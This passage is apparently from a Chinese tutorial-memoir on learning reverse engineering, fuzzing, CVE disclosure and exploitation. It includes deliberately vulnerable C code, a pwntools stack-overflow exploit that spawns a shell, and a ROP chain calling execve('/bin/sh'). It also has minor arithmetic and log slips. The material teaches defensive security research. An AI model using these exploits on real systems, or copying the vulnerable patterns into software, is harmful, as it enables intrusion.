+----------------------+
| 节区 (Sections)              |
|   - .text 代码段             |
|   - .data 数据段             |
|   - .rodata 只读数据         |
|   - .bss 未初始化数据        |
|   - .got 全局偏移表          |
|   - .plt 过程链接表          |
|   - .symtab 符号表           |
|   - ...                      |
+----------------------+
| 节头表 (Section Header Table) | 描述节区
+----------------------+
```

**为什么要学文件格式？**

```
🤔 学文件格式有什么用？

1. 漏洞挖掘时定位代码
   - 知道哪个节是代码，哪个节是数据
   - 知道入口点在哪里
   - 知道哪些函数是从外部导入的

2. 漏洞利用时构造payload
   - 比如利用PLT/GOT（Linux的延迟绑定机制）
   - 比如利用导入表找system函数地址
   - 都要理解文件格式

3. 分析加壳程序
   - 加壳会修改PE/ELF结构
   - 理解原始结构才能脱壳

4. 编写Shellcode
   - Shellcode要能定位自己在哪里
   - 要能找到需要的函数
   - 都要理解文件格式
```

### 3.4 逆向工具：IDA Pro 与 Ghidra

学完基础，开始上手工具。

我搞外挂的时候用过IDA，但是用得不深。这次系统学了一遍。

**IDA Pro** 是反汇编/反编译的神器，业界标准。

```
🛠️ IDA Pro 常用快捷键：

【导航】
- G: 跳转到指定地址
- Ctrl+L: 跳转到标签
- Esc: 返回上一个位置
- Ctrl+Enter: 前进到下一个位置

【分析】
- F5: 反编译（Hex-Rays，神器！把汇编转成C代码）
- N: 重命名变量/函数
- Y: 修改变量类型
- M: 转换为枚举
- C: 转换为代码
- D: 转换为数据
- A: 转换为字符串
- T: 应用结构体

【交叉引用】
- X: 查看交叉引用（哪些地方调用了这个函数/使用了这个变量）
- Ctrl+X: 同上

【搜索】
- Alt+T: 搜索文本
- Alt+B: 搜索二进制（字节序列）
- Alt+I: 搜索立即数

【其他】
- Space: 在图形视图和文本视图间切换
- F2: 添加断点（配合调试器）
- F9: 运行（调试模式）
```

**F5反编译**是IDA最神的功能，能把汇编直接转成C代码：

```
反编译前的汇编：
.text:00401000 push   ebp
.text:00401001 mov    ebp, esp
.text:00401003 sub    esp, 40h
.text:00401006 mov    eax, [ebp+8]
.text:00401009 add    eax, [ebp+0Ch]
.text:0040100C mov    [ebp+var_4], eax
.text:0040100F mov    eax, [ebp+var_4]
.text:00401012 mov    esp, ebp
.text:00401014 pop    ebp
.text:00401015 retn

反编译后的C代码（按F5）：
int __cdecl add(int a, int b)
{
    return a + b;
}
```

是不是清爽多了？

**Ghidra** 是NSA开源的反汇编工具，功能跟IDA差不多，但是免费的。

```
🛠️ Ghidra vs IDA Pro：

IDA Pro：
- 业界标准，资料多
- 反编译效果更好（Hex-Rays）
- 调试器集成好
- 但是贵（几万到几十万）

Ghidra：
- NSA开源，免费
- 反编译效果也不错
- 支持协作（多人同时分析）
- 支持插件扩展
- 但是资料相对少
```

我那时候没钱买IDA，主要用Ghidra学，后来工作了公司有IDA才用上。

### 3.5 调试器：x64dbg 与 GDB

调试器是漏洞挖掘的核心工具。

```
🛠️ x64dbg 常用快捷键（Windows）：

【控制执行】
- F7: 单步步入（Step Into，进入函数内部）
- F8: 单步步过（Step Over，不进入函数）
- F9: 运行（Run）
- Shift+F9: 运行（忽略异常）
- Ctrl+F7: 单步进入（自动）
- Ctrl+F8: 单步步过（自动）

【断点】
- F2: 在当前行下断点
- F3: 编辑断点
- Shift+F2: 条件断点
- Alt+B: 断点列表

【查看】
- Alt+L: 日志
- Alt+E: 模块列表
- Alt+M: 内存映射
- Alt+C: 调用栈

【其他】
- Ctrl+G: 跳转到地址
- Ctrl+F: 查找
```

```
🛠️ GDB 常用命令（Linux）：

【控制执行】
- run (r): 运行程序
- continue (c): 继续执行
- step (s): 单步步入
- next (n): 单步步过
- finish: 执行到当前函数结束
- stepi (si): 单步指令（汇编级）
- nexti (ni): 单步指令（不进入）

【断点】
- break (b) <位置>: 下断点
  * b main: 在main函数下断
  * b *0x400000: 在地址0x400000下断
  * b 10: 在第10行下断
- delete (d) <编号>: 删除断点
- info breakpoints (i b): 查看断点
- disable <编号>: 禁用断点
- enable <编号>: 启用断点

【查看】
- print (p) <表达式>: 打印值
  * p $rax: 打印rax寄存器
  * p *array@10: 打印数组前10个元素
- info registers (i r): 查看寄存器
- x/<n><f><u> <地址>: 查看内存
  * x/16xb 0x400000: 查看0x400000开始的16字节（16进制）
  * x/8xw 0x400000: 查看8个32位整数
  * x/10i 0x400000: 查看10条指令
- backtrace (bt): 查看调用栈
- info frame (i f): 查看当前栈帧

【其他】
- disassemble <函数>: 反汇编
- set <变量>=<值>: 修改变量
- watch <表达式>: 数据断点
```

我学调试器的时候，发现这玩意儿和我搞外挂时用的调试器其实是同一套思路。

只是以前调试游戏是为了找内存地址，现在调试程序是为了找漏洞。

```python
# 我学x64dbg时写的一个简单脚本，自动下断点分析函数
# 用 x64dbg 的 Python API

import x64dbgpy

def analyze_function(module_name, function_name):
    """分析指定模块的指定函数"""
    
    # 1. 找到模块基址
    module_base = x64dbgpy.module.get_base(module_name)
    print(f"[*] {module_name} 基址: {hex(module_base)}")
    
    # 2. 找到函数地址（通过导出表）
    func_addr = x64dbgpy.module.get_export(module_name, function_name)
    if not func_addr:
        print(f"[-] 找不到函数 {function_name}")
        return
    
    print(f"[*] {function_name} 地址: {hex(func_addr)}")
    
    # 3. 在函数入口下断点
    x64dbgpy.breakpoint.set(func_addr)
    print(f"[*] 已在 {hex(func_addr)} 下断点")
    
    # 4. 等待断点触发
    # 当断点触发时，可以打印参数、寄存器等
    
    # 5. 在函数返回处也下断点
    # 这样可以看到返回值
    
    print("[*] 等待断点触发...")

# 分析 kernel32.dll 的 CreateFileA 函数
analyze_function("kernel32.dll", "CreateFileA")
```

### 3.6 一个练手的小项目：逆向一个Crackme

学完工具，我找了个练手项目——一个Crackme程序。

Crackme是逆向练习用的，作者故意写了一个需要"破解"的程序，让你通过逆向分析找到密码或者序列号。

我找的那个Crackme（就叫CM1吧）是这样的：

```
🎯 Crackme CM1 的要求：

程序运行后会让你输入密码。
输入正确，显示"Congratulations!"
输入错误，显示"Wrong password!"

任务：通过逆向分析，找出正确的密码。
```

我用Ghidra打开CM1，找到main函数，F5反编译：

```c
// Ghidra反编译的main函数
int main(int argc, char **argv) {
    char input[64];
    int i;
    int sum = 0;
    
    printf("Enter password: ");
    scanf("%63s", input);
    
    // 计算输入字符串的"校验和"
    for (i = 0; input[i] != '\0'; i++) {
        sum += input[i];
    }
    
    // 校验
    if (sum == 0x1f4 && strlen(input) == 8) {
        printf("Congratulations!\n");
    } else {
        printf("Wrong password!\n");
    }
    
    return 0;
}
```

看到这段代码，我乐了。

这就是个简单的"校验和"——把输入的每个字符的ASCII值加起来，要等于0x1F4（十进制500），而且长度必须是8。

500 / 8 = 62.5，平均每个字符的ASCII值要是62.5。

字符'A'的ASCII是65，'a'是97，所以平均下来正好。

那我随便凑8个字符，和为500就行。

比如：'A' + 'a' + 'A' + 'a' + 'A' + 'a' + 'A' + 'a' = 65+97+65+97+65+97+65+97 = 648，不对。

让我算算：500 / 8 = 62.5。

ASCII 62是'>'，63是'?'。

那我可以凑：5个'?'（63*5=315）+ 3个'='（61*3=183）= 315+183=498，差2。

调整一下：5个'?'（315）+ 2个'='（122）+ 1个'A'（65）= 315+122+65=502，超了。

再来：4个'?'（252）+ 4个'='（244）= 496，差4。

3个'?'（189）+ 5个'='（305）= 494，差6。

让我换个思路：直接用8个字符凑500。

8个字符，每个字符平均62.5。

如果用8个'>'（62）= 496，差4。

把其中一个换成'B'（66）：496-62+66=500。

所以密码可以是：'>>>>>>B'（7个'>'加1个'B'）...等等，7+1=8，对的！

我输入这个密码，程序显示"Congratulations!"。

第一个Crackme搞定！

虽然简单，但是这个过程让我回忆起了搞外挂时的感觉——**把一个黑盒拆开，看它怎么工作的，然后找到它的弱点**。

漏洞挖掘，本质上也是这个套路。

---

## 🎯 漏洞挖掘入门：Fuzzing

### 4.1 什么是Fuzzing？

学完基础之后，老周让我开始学Fuzzing。

**Fuzzing（模糊测试）** 是漏洞挖掘的核心方法之一。

```
🤔 Fuzzing是什么？

简单说：Fuzzing就是"自动化地给程序喂乱七八糟的输入，看它会不会崩"。

举个例子：
- 你有一个图片解析程序
- 你生成一堆"畸形"的图片（比如尺寸改得乱七八糟、格式不对、数据损坏）
- 然后让程序去解析这些图片
- 如果程序崩溃了，说明有bug
- 进一步分析崩溃的原因，可能就是个漏洞

Fuzzing的原理就这么简单：暴力测试 + 自动化 + 崩溃检测。
```

**Fuzzing的分类：**

```
📊 Fuzzing分类：

【按输入生成方式分】
1. 生成式Fuzzing（Generation-based）
   - 根据协议/格式规范，从零生成输入
   - 优点：输入合法，能深入测试
   - 缺点：需要知道格式规范

2. 变异式Fuzzing（Mutation-based）
   - 拿一个合法的输入，做随机修改（变异）
   - 优点：不需要知道格式
   - 缺点：可能改得太离谱，程序早期就拒绝了

3. 混合Fuzzing
   - 生成 + 变异结合

【按是否有源码分】
1. 黑盒Fuzzing
   - 不需要源码，纯黑盒测试
   - 只能通过崩溃/异常来发现问题

2. 白盒Fuzzing
   - 有源码，可以做符号执行、污点分析
   - 能更精准地触发特定代码路径

3. 灰盒Fuzzing
   - 介于黑盒和白盒之间
   - 通过覆盖率反馈指导fuzzing
   - 代表：AFL、libFuzzer
```

**图129-1 Fuzzing工作流程图**



### 4.2 AFL：覆盖率引导的Fuzzing神器

AFL（American Fuzzy Lop）是Fuzzing界的神器，覆盖率引导的灰盒Fuzzing。

```
🛠️ AFL的工作原理：

1. 编译时插桩
   - 用afl-gcc或afl-clang代替gcc/clang编译
   - 编译器会在每个分支处插入"探针"代码
   - 探针用于记录代码覆盖率

2. 种子输入
   - 提供一些合法的输入样本作为种子
   - AFL会基于这些种子做变异

3. 变异策略
   - 位翻转（bitflip）
   - 算术变化（+1, -1, +2, -2...）
   - 已知"有意思的值"（0, 1, -1, MAX_INT, MIN_INT...）
   - 块替换、块删除、块插入
   - 基于字典的变异（用已知的关键字）
   - 同步/合并变异

4. 覆盖率反馈
   - 每次运行目标程序，记录它执行了哪些分支
   - 如果一个变异输入触发了"新"的分支（之前没走过的）
   - 把它加入种子库，作为后续变异的基础
   - 这样就能不断探索新的代码路径

5. 崩溃检测
   - 监控目标程序的退出状态
   - 如果崩溃了（SIGSEGV, SIGABRT等），保存崩溃样本
```

**AFL的基本使用：**

```bash
# 1. 用afl-gcc编译目标程序
# 假设目标程序是 vulnerable_app.c
afl-gcc -o vulnerable_app vulnerable_app.c

# 2. 准备种子目录
mkdir input_seeds
echo "hello" > input_seeds/seed1.txt
echo "test" > input_seeds/seed2.txt

# 3. 创建输出目录
mkdir output

# 4. 启动AFL
afl-fuzz -i input_seeds -o output -- ./vulnerable_app @@

# 参数说明：
# -i: 输入种子目录
# -o: 输出目录
# --: 后面跟目标程序和参数
# @@: 表示输入文件的位置（AFL会把生成的输入文件路径替换到这里）
```

**图129-2 AFL的工作流程**



### 4.3 libFuzzer：进程内Fuzzing

libFuzzer是LLVM项目里的Fuzzing工具，和AFL的区别是它**不需要fork进程**。

```
🛠️ AFL vs libFuzzer：

AFL：
- 每次运行都fork一个新进程
- 优点：稳定，一个崩溃不影响其他
- 缺点：fork开销大，速度慢

libFuzzer：
- 在同一个进程里循环调用目标函数
- 优点：速度快，每秒可以跑几万次
- 缺点：一个崩溃整个进程就挂了
- 适合Fuzzing库函数
```

**libFuzzer的基本使用：**

```c
// fuzz_target.c - libFuzzer的目标函数
#include <stdint.h>
#include <stddef.h>
#include <string.h>

// 这是被Fuzzing的函数
void parse_data(const uint8_t *data, size_t size) {
    if (size < 4) return;
    
    // 模拟一个有漏洞的函数
    if (data[0] == 'A' && data[1] == 'B' && data[2] == 'C') {
        char buf[10];
        // 这里有缓冲区溢出漏洞！
        memcpy(buf, data + 3, size - 3);
    }
}

// libFuzzer的入口函数
int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    parse_data(data, size);
    return 0;
}
```

```bash
# 编译（需要Clang和AddressSanitizer）
clang -g -O1 -fsanitize=fuzzer,address -o fuzz_target fuzz_target.c

# 运行
./fuzz_target

# libFuzzer会自动生成输入，运行目标函数，检测崩溃
# 配合AddressSanitizer（ASAN），能检测到内存错误
```

### 4.4 第一个Fuzzing目标：开源图片库

学完AFL和libFuzzer，老周建议我找个真实的开源项目练手。

他推荐了几个适合入门的目标：

```
🎯 适合入门的Fuzzing目标（都是真实的开源项目）：

1. libpng
   - PNG图片解析库
   - 历史漏洞多，但是新版基本修完了
   - 适合学习

2. libjpeg / libjpeg-turbo
   - JPEG图片解析库
   - 同上

3. libxml2
   - XML解析库
   - 用得非常广泛
   - 历史漏洞很多

4. cURL
   - 命令行HTTP工具
   - 协议解析部分可以Fuzzing

5. SQLite
   - 数据库
   - SQL解析部分可以Fuzzing

6. FFmpeg
   - 视频/音频处理
   - 格式解析部分漏洞多
   - 但是太大了，不适合入门

7. 各类小的命令行工具
   - binutils（readelf, objdump...）
   - coreutils（cat, ls, head...）
```

我选了一个图片处理库（就叫它PicLib吧，已脱敏），开始Fuzzing。

```bash
# 1. 下载源码
git clone https://github.com/example/piclib.git
cd piclib

# 2. 用afl-clang-fast编译（比afl-gcc快）
# afl-clang-fast使用LLVM，性能更好
export CC=afl-clang-fast
export CXX=afl-clang-fast++
export AFL_USE_ASAN=1  # 启用AddressSanitizer

mkdir build && cd build
cmake .. -DCMAKE_BUILD_TYPE=Debug
make -j$(nproc)

# 3. 准备种子
mkdir seeds
# 找一些小的、合法的图片作为种子
cp ~/Pictures/sample1.pic seeds/
cp ~/Pictures/sample2.pic seeds/
# 也可以用AFL自带的种子
# 或者用 PicLib 自带的测试图片

# 4. 启动Fuzzing
afl-fuzz -i seeds -o output -- ./piclib_parser @@

# 5. 等结果
# AFL会持续运行，不断变异输入，检测崩溃
```

我让AFL跑了大概两天，跑了大约**8亿次**执行，找到了**6个崩溃样本**。

```
📊 Fuzzing结果汇总（跑了2天）：

【执行统计】
- 总执行次数：约 8.2 亿次
- 执行速度：约 4500 次/秒
- 种子库大小：从2个增长到 87 个
- 代码覆盖率：约 73%（PicLib核心代码）

【发现崩溃】
- 崩溃样本数：6个
- 其中可复现的：5个
- 不同根因的：3个（其他3个是重复的）

【崩溃类型】
- 栈缓冲区溢出：1个
- 堆缓冲区溢出：1个
- 空指针解引用：1个（这个不算安全漏洞）
- 整数溢出导致的小缓冲区：1个（重复）
- 其他：1个
```

接下来就是分析这些崩溃，看是不是真的漏洞。

### 4.5 分析第一个崩溃

我用GDB加载第一个崩溃样本，看看到底发生了什么：

```bash
# 用GDB调试崩溃
gdb ./piclib_parser

(gdb) run output/crashes/id:000001,sig:06,src:000012,op:havoc,rep:16
# ...
# Program received signal SIGSEGV, Segmentation fault.
# 0x0000555555556a3c in parse_header (data=0x55555555c2d0 "ABC...", size=...) at parse.c:42
# 42        buf[offset] = data[offset];
```

崩溃在`parse_header`函数，第42行。

我用GDB看了一下：

```
(gdb) bt
#0  0x0000555555556a3c in parse_header (data=0x55555555c2d0, size=...)
    at parse.c:42
#1  0x0000555555556f10 in piclib_parse (data=..., size=...)
    at piclib.c:78
#2  0x0000555555557234 in main (argc=2, argv=...) at main.c:25

(gdb) info registers
rax            0x4141414141414141   <- 被覆盖了！
rbx            0x4141414141414141
rcx            0x0
rdx            0x7ffff7dc4a80
...

(gdb) x/16xw $rsp
0x7fffffffe350: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffe360: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffe370: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffe380: 0x41414141  0x41414141  0x41414141  0x41414141
```

栈上全是`0x41`，这是字符'A'。明显是被溢出的数据填满了。

我去看源码：

```c
// parse.c
void parse_header(const uint8_t *data, size_t size) {
    char buf[64];  // 栈上64字节的缓冲区
    int offset = 0;
    
    // 从data读取数据到buf，但是没有检查长度！
    while (offset < size && data[offset] != '\n') {
        buf[offset] = data[offset];  // 第42行，崩溃点
        offset++;
    }
    
    // ...
}
```

这就是个**栈缓冲区溢出**！

`buf`只有64字节，但是循环一直把`data`的内容拷贝进来，没检查`offset`有没有超过64。

如果`data`大于64字节，就会溢出`buf`，覆盖栈上的其他数据。

**漏洞确认！**

### 4.6 第一个CVE的诞生

我兴奋地把这个漏洞的细节整理了一下，准备提交。

但是老周告诉我，提交CVE之前，要先走"负责任的披露"流程：

```
📋 漏洞披露流程（Responsible Disclosure）：

1. 验证漏洞
   - 确认漏洞真实存在
   - 确认漏洞的影响范围
   - 写一个最小化的PoC（Proof of Concept，概念验证）

2. 联系厂商
   - 先联系软件作者/厂商
   - 给他们时间修复（通常90天）
   - 不要直接公开

3. 等待修复
   - 厂商会发布修复版本
   - 在修复版本发布后，可以申请CVE编号

4. 申请CVE
   - 通过MITRE申请CVE编号
   - 或者通过CNA（CVE Numbering Authority）
   - 提供漏洞详情、PoC、影响范围

5. 公开披露
   - CVE编号拿到后，可以公开披露
   - 写技术博客、发会议演讲等
```

我按照流程，先联系了PicLib的作者。

邮件内容大概是这样的：

```
邮件主题：PicLib 栈缓冲区溢出漏洞报告

收件人：piclib-author@example.com

正文：

尊敬的作者：

您好，我在审计PicLib时发现了一个栈缓冲区溢出漏洞，详情如下：

【漏洞位置】
文件：parse.c
函数：parse_header
行号：第40-44行

【漏洞描述】
parse_header函数在读取数据时，没有检查长度，导致栈缓冲区溢出。
buf数组大小为64字节，但是循环拷贝时没有边界检查。

【漏洞代码】
void parse_header(const uint8_t *data, size_t size) {
    char buf[64];
    int offset = 0;
    while (offset < size && data[offset] != '\n') {
        buf[offset] = data[offset];  // 溢出点
        offset++;
    }
}

【影响】
攻击者构造恶意的图片文件，可触发栈缓冲区溢出。
可能导致：
- 程序崩溃（拒绝服务）
- 远程代码执行（如果开了canary但能绕过）

【PoC】
附件是一个能触发崩溃的样本文件。

【建议修复】
在循环里增加长度检查：
while (offset < size && offset < sizeof(buf) && data[offset] != '\n') {
    buf[offset] = data[offset];
    offset++;
}

请问您能在方便的时候确认一下吗？
如果需要更多信息，随时联系我。

此致
敬礼

小林
```

作者第二天就回复了：

> 你好小林，
>
> 感谢你的报告！漏洞确认存在。
> 我已经修复了，新版本v2.3.5已经发布。
> 你可以申请CVE编号了，需要我做什么配合吗？

太爽了！

接下来我通过MITRE申请CVE编号。

```
📋 申请CVE的步骤：

1. 访问 https://cveform.mitre.org/
2. 选择"Request a CVE ID"
3. 填写表单：
   - 漏洞描述
   - 受影响的产品和版本
   - 漏洞类型（CWE分类）
   - PoC链接
   - 厂商确认
4. 等待审核（通常1-4周）
5. 审核通过后，会收到CVE编号

或者，如果受影响的产品有CNA（比如大型开源项目），可以直接联系CNA申请。
```

我提交申请后，等了大概两周，收到了邮件：

> Dear Lin,
>
> Your CVE request has been approved.
> CVE ID: CVE-2024-XXXXX
> ...
>
> Thank you for your contribution to cybersecurity.

**我拿到第一个CVE编号了！！！**

那一刻，我激动得差点跳起来。

> 我靠，我也有CVE了！
> 我居然也有CVE了！

我赶紧截图发朋友圈，发到所有技术群里。

```
🎉 我人生中第一个CVE：

CVE-2024-XXXXX
标题：Stack-based buffer overflow in parse_header in PicLib before 2.3.5
类型：CWE-121 Stack-based Buffer Overflow
CVSS：7.5（High）
影响：PicLib < 2.3.5

修复版本：PicLib 2.3.5
发现方式：AFL Fuzzing
```

虽然只是个小CVE，但是对于我这种刚入门的新人来说，意义非凡。

这标志着我从一个"游戏外挂爱好者"，正式转变成了一个"漏洞研究员"。

> 💡 **申请CVE的注意事项**
>
> 1. 漏洞必须真实存在，不能是误报
> 2. 必须是"安全相关"的漏洞（崩溃如果只是DoS，可能不会给CVE）
> 3. 厂商必须确认（或者你提供充分的证据）
> 4. 要有明确的影响范围（受影响的版本）
> 5. 提交时要写清楚漏洞类型（CWE分类）
> 6. 不要在CVE下来之前公开漏洞细节

### 4.7 挖到更多漏洞

尝到甜头之后，我继续Fuzzing，又挖到了几个漏洞。

```
🏆 我挖到的漏洞清单（脱敏后）：

【CVE-2024-XXXX1】栈缓冲区溢出 - PicLib
- 类型：CWE-121
- 严重性：High
- 影响：远程代码执行
- 发现方式：AFL Fuzzing

【CVE-2024-XXXX2】堆缓冲区溢出 - PicLib
- 类型：CWE-122
- 严重性：High
- 影响：远程代码执行
- 发现方式：AFL Fuzzing

【CVE-2024-XXXX3】整数溢出导致缓冲区溢出 - PicLib
- 类型：CWE-190
- 严重性：Medium
- 影响：可能远程代码执行
- 发现方式：代码审计

【CVE-2024-XXXX4】空指针解引用 - PicLib
- 类型：CWE-476
- 严重性：Low
- 影响：拒绝服务
- 发现方式：AFL Fuzzing

【CVE-2025-XXXX5】UAF漏洞 - 某XML解析库
- 类型：CWE-416
- 严重性：High
- 影响：远程代码执行
- 发现方式：libFuzzer

【CVE-2025-XXXX6】格式化字符串漏洞 - 某命令行工具
- 类型：CWE-134
- 严重性：Medium
- 影响：信息泄露
- 发现方式：代码审计
```

挖到这几个CVE之后，我在小圈子里也算有点名气了。

老周跟我说：

> 小伙子不错啊，半年挖到6个CVE。
> 但是别骄傲，CVE只是个开始。
> 真正的硬通货是 **0day**——也就是别人还没发现的漏洞。
> 你现在挖的都是"已修复"的，0day是"未修复"的。
> 0day才是真正的"漏洞猎手"玩的。

我心里暗暗下定决心：

> 我要挖0day！
> 我要成为真正的漏洞猎手！

但是老周也告诉我：

> 挖0day之前，你得先学会 **漏洞利用**。
> 因为0day的"价值"，取决于它能不能被利用。
> 同样一个漏洞，能写exploit的，价值是只能崩的10倍。

于是我开始学漏洞利用。

---

## 💣 漏洞利用入门

### 5.1 为什么要学漏洞利用？

很多人觉得，挖漏洞就够了，为什么还要学利用？

```
🤔 为什么漏洞研究员要学利用？

1. 评估漏洞严重性
   - 一个崩溃，可能是无害的DoS，也可能是RCE
   - 不写exploit，你怎么知道是哪种？

2. 提高漏洞价值
   - 同样一个漏洞，只能崩 vs 能RCE，价值差10倍
   - Pwn2Own比赛，要求演示完整利用，光崩溃不算

3. 检验修复有效性
   - 厂商说修好了，你写个exploit试试
   - 真修好了应该利用不了

4. 防御需要
   - 防御方需要知道漏洞怎么被利用，才能写检测规则
   - 不懂利用，怎么写IDS规则？

5. 提高挖洞效率
   - 懂利用的人，挖洞时更有方向感
   - 知道什么样的bug可利用，什么样的不可利用
```

老周说：

> 漏洞挖掘是"找bug"，漏洞利用是"把bug变成武器"。
> 一个完整的漏洞研究员，两样都要会。

### 5.2 栈溢出利用：最经典的入门

栈溢出是最经典的漏洞类型，也是学利用的最好起点。

**栈的结构：**

```
📦 函数调用时的栈结构（从高地址到低地址）：

高地址
+----------------------+
| 函数参数             |
+----------------------+
| 返回地址 (Return Addr)| <- 关键！函数返回时会跳到这里
+----------------------+
| 保存的EBP/RBP        | <- 调用者的栈帧指针
+----------------------+
| 局部变量             |
| (buf[64])            | <- 溢出发生在这里
+----------------------+
| ...其他局部变量...   |
+----------------------+
低地址
```

**栈溢出的原理：**

```c
// 有漏洞的代码
void vulnerable() {
    char buf[64];
    gets(buf);  // 危险！gets不检查长度
}
```

如果输入超过64字节，多出来的部分会**依次覆盖**：
1. buf后面的其他局部变量
2. 保存的EBP
3. **返回地址**（关键！）
4. 函数参数

覆盖返回地址之后，函数返回时会跳到我们指定的地址——**控制流被劫持了**！

**图129-3 栈溢出原理图**



**一个最简单的栈溢出示例：**

```c
// vuln_stack.c - 有漏洞的程序
#include <stdio.h>
#include <string.h>

void secret() {
    printf("You hacked me!\n");
    system("/bin/sh");
}

void vulnerable() {
    char buf[64];
    printf("Enter input: ");
    gets(buf);  // 危险函数，不检查长度
    printf("You said: %s\n", buf);
}

int main() {
    vulnerable();
    return 0;
}
```

```bash
# 编译（关闭保护）
gcc -fno-stack-protector -no-pie -z execstack -o vuln_stack vuln_stack.c

# -fno-stack-protector: 关闭Canary
# -no-pie: 关闭PIE（位置无关可执行文件）
# -z execstack: 栈可执行
```

**利用思路：**

```
🎯 利用思路：

1. 找到 secret 函数的地址（用 nm 或 objdump）
   $ nm vuln_stack | grep secret
   0000000000401196 T secret
   所以 secret 的地址是 0x401196

2. 计算需要多少字节才能覆盖返回地址
   - buf[64] = 64字节
   - 保存的EBP = 8字节（64位系统）
   - 共 64 + 8 = 72 字节，就能到返回地址

3. 构造payload
   - 72字节的填充（'A'*72）
   - 8字节的返回地址（secret的地址 0x401196）
```

**写exploit：**

```python
# exploit_stack.py
from pwn import *

# 加载目标程序
p = process('./vuln_stack')

# secret函数的地址
secret_addr = 0x401196

# 构造payload
# 64字节buf + 8字节保存的RBP + 8字节返回地址
payload = b'A' * 64  # 填满buf
payload += b'B' * 8  # 覆盖保存的RBP
payload += p64(secret_addr)  # 覆盖返回地址

# 发送payload
p.sendline(payload)

# 进入交互模式，应该已经拿到shell了
p.interactive()
```

```bash
# 运行exploit
$ python exploit_stack.py
[+] Starting local process './vuln_stack': pid 12345
[*] Switching to interactive mode
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x96\x11@
You hacked me!
$ whoami
lin
$ 
```

**成功拿到shell！**

虽然这是个最简单的例子（直接跳到一个现成的函数），但是它揭示了栈溢出利用的核心——**覆盖返回地址，控制执行流**。

### 5.3 现代缓解机制：Canary、DEP、ASLR

现实中的程序可没这么好打，因为现代操作系统有一堆缓解机制：

```
🛡️ 现代漏洞缓解机制：

1. Canary（栈保护 / Stack Cookie）
   - 原理：函数进入时，在栈上插入一个随机值（canary）
   - 函数返回前，检查canary是否被篡改
   - 如果被篡改，说明栈被溢出了，程序直接终止
   - 绕过方法：
     * 信息泄露canary值
     * 暴力破解（fork服务器可爆破）
     * 覆盖其他指针而非返回地址

2. DEP / NX（数据执行保护）
   - 原理：标记栈、堆等数据区域为"不可执行"
   - 即使把shellcode写到栈上，也无法执行
   - 绕过方法：
     * ROP（Return-Oriented Programming）
     * ret2libc
     * 调用mprotect修改权限

3. ASLR（地址空间布局随机化）
   - 原理：每次运行，程序和库的加载地址都随机
   - 即使知道漏洞，也不知道要跳到哪个地址
   - 绕过方法：
     * 信息泄露基地址
     * 部分覆盖（只覆盖返回地址的低字节）
     * 喷雾（heap spray）

4. PIE（位置无关可执行文件）
   - 原理：程序本身的位置也随机化（ASLR的扩展）
   - 绕过方法：信息泄露程序基地址

5. RELRO（Relocation Read-Only）
   - 原理：把GOT表设为只读，防止GOT覆写
   - Full RELRO: 完全只读
   - Partial RELRO: 部分只读
   - 绕过方法：用其他方法替代GOT覆写

6. CFI（控制流完整性）
   - 原理：检查间接跳转的目标是否合法
   - 绕过方法：复杂，需要找CFI的盲点

7. Fortify（_FORTIFY_SOURCE）
   - 原理：编译时插入边界检查
   - 绕过方法：找没有被fortify保护的函数
```

### 5.4 ROP：绕过DEP的利器

DEP（数据执行保护）让栈上的shellcode无法执行，但是黑客发明了ROP（Return-Oriented Programming）来绕过它。

**ROP的原理：**

```
🤔 ROP是什么？

ROP的核心思想：
- 程序本身的可执行段（.text）是可以执行的
- 我们跳到 .text 段里的"代码片段"（gadget）
- 每个gadget都是几条指令，以 ret 结尾
- 通过一连串的gadget，组合出我们想要的操作

什么是gadget？
- 一段以 ret 结尾的短指令序列
- 比如：pop rdi ; ret
- 比如：mov rax, rbx ; ret
- 这些gadget散落在 .text 段各处
- 我们通过覆盖栈，让程序依次"返回"到这些gadget
- 从而拼凑出任意操作

类比：
- 普通编程：你自己写代码
- ROP：用别人代码里的小片段，拼出你想要的功能
- 就像用积木拼房子，每块积木都是别人做好的
```

**一个ROP链的例子（x64 Linux，调用execve("/bin/sh", 0, 0)）：**

```
目标：调用 execve("/bin/sh", 0, 0)
系统调用号：59 (execve)
参数：
  - rdi = "/bin/sh" 字符串地址
  - rsi = 0
  - rdx = 0
  - rax = 59
然后 syscall

需要的gadget：
1. pop rdi ; ret          - 设置rdi
2. pop rsi ; ret          - 设置rsi
3. pop rdx ; ret          - 设置rdx
4. pop rax ; ret          - 设置rax
5. syscall ; ret          - 触发系统调用
```

```python
# ROP exploit示例
from pwn import *

p = process('./vuln')

# 用ROPgadget工具找gadget
# $ ROPgadget --binary vuln | grep "pop rdi"
# 0x4011e3 : pop rdi ; ret
# $ ROPgadget --binary vuln | grep "pop rsi"
# 0x4011e1 : pop rsi ; pop r15 ; ret  (注意有副作用)
# $ ROPgadget --binary vuln | grep "pop rdx"
# 没找到，需要从其他地方找
# ...

# 假设我们找到了这些gadget
pop_rdi = 0x4011e3
pop_rsi_r15 = 0x4011e1
pop_rax = 0x4011f0
syscall_ret = 0x4011f5

# "/bin/sh" 字符串的地址（可以从程序里找，或者写到.bss）
binsh_addr = 0x402001

# 构造ROP链
payload = b'A' * 72  # 填充到返回地址

# 1. 设置 rdi = "/bin/sh"
payload += p64(pop_rdi)
payload += p64(binsh_addr)

# 2. 设置 rsi = 0 (pop r15会消耗一个8字节，填0)
payload += p64(pop_rsi_r15)
payload += p64(0)  # rsi
payload += p64(0)  # r15

# 3. 设置 rax = 59 (execve的系统调用号)
payload += p64(pop_rax)
payload += p64(59)

# 4. 触发syscall
payload += p64(syscall_ret)

p.sendline(payload)
p.interactive()
```

这就是ROP——**用一堆小积木（gadget）拼出任意操作**。

虽然很麻烦，但是能绕过DEP。

### 5.5 堆利用：更复杂的世界

栈溢出是入门，**堆溢出**才是真正的硬骨头。

堆比栈复杂得多，因为堆是动态分配的，有复杂的分配器（glibc的ptmalloc、tcmalloc、jemalloc...）。

```
📦 堆的基础知识：

1. 堆是什么？
   - 程序运行时动态分配的内存
   - malloc/new分配，free/delete释放
   - 由堆管理器（如glibc的ptmalloc）管理

2. 堆块的结构（glibc ptmalloc）
   - 每个堆块有chunk header（prev_size, size, flags）
   - 然后是用户数据
   - 空闲块还有fd/bk指针（指向其他空闲块）

3. 空闲块管理
